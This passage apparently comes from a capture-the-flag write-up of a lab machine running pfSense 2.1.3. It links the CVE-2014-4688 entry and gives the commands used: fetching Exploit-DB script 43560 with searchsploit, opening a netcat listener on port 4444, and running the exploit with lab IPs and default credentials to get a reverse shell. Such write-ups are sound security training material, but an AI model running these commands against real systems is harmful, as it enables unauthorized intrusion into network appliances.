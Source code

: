 ![searchsploit output](images-sense/7.png)

**Links:**
1. [exploitdb - CVE-2014-4688](https://www.exploit-db.com/exploits/43560)
2. [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)

I have marked the exploit that I thought will definitely work, why? Firstly, it exactly fits our version (2.1.3) and secondly, it is a python script which is easy to edit so we can make a unique exploit if needed. I immediately imported this exploit using the following command and checked for correct options in the program, then exploited it.

Command to download the exploit:

`searchsploit -m php/webapps/43560.py`

Command for exploitation (with a listener):
- `nc -lnvp 4444`
- `./43560.py --rhost 10.10.10.60 --lhost 10.10.14.11 --lport 4444 --username rohit --password pfsense`
